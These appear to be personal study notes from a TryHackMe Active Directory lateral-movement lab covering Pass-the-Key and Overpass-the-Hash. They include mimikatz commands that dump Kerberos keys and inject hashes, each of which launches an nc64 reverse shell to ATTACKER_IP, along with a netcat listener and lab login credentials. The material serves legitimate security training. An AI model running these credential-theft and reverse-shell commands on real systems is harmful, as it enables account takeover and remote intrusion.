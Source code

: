 ```powershell
mimikatz # privilege::debug
mimikatz # sekurlsa::ekeys
```

- Depending on the available keys, we can run the following commands on mimikatz to get a reverse shell via `Pass-the-Key`(`nc64` is already available in `THMJMP2` for your convenience).

**If we have the `RC4` hash**:

```powershell
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```


**If we have the `AES128` hash**:

```powershell
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:b65ea8151f13a31d01377f5934bf3883 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```


**If we have the `AES256` hash**:

```powershell
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```


- Notice that when using RC4, the **key will be equal to the NTLM hash** of a user.
- This means that if we could extract the `NTLM hash`, we can use it to request a `TGT` as long as RC4 is one of the enabled protocols.

		- Okay so basically, we have the username and uses the NTLM hash of a user is used as the key when encrypting the Timestamp right before sending the request for TGT.

- This particular variant is usually known as the `Overpass-the-Hash` (OPtH).

##### Receiving the reverse shell on our AttackBox:

```shell
user@AttackBox$ nc -lvp 5556
```

	- Just as with PtH, any command run from this shell will use the credentials injected via mimikatz.


## Application

- To begin this exercise, you will need to connect to THMJMP2 using the following credentials via SSH:

`User: ZA.TRYHACKME.COM\t2_felicia.dean`

`Password: iLov3THM!`

`ssh za\\t2_felicia.dean@thmjmp2.za.tryhackme.com`

